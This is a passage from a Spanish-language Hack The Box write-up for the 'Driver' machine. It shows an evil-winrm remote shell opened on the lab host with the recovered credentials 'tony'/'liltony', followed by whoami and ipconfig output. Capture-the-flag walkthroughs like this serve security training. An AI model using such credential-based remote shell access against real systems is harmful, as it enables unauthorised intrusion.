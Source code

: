 ![](/assets/images/htb-writeup-driver/web6.png)

## Shell tony 

```bash
❯ evil-winrm -i 10.10.11.106 -u 'tony' -p 'liltony'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Documents> 
```

Estamos en la maquina victima

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::6f
   IPv6 Address. . . . . . . . . . . : dead:beef::c825:e03d:9222:1bcc
   Temporary IPv6 Address. . . . . . : dead:beef::9892:ece1:d558:715e
   Link-local IPv6 Address . . . . . : fe80::c825:e03d:9222:1bcc%5
   IPv4 Address. . . . . . . . . . . : 10.10.11.106
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:a809%5
                                       10.10.10.2

```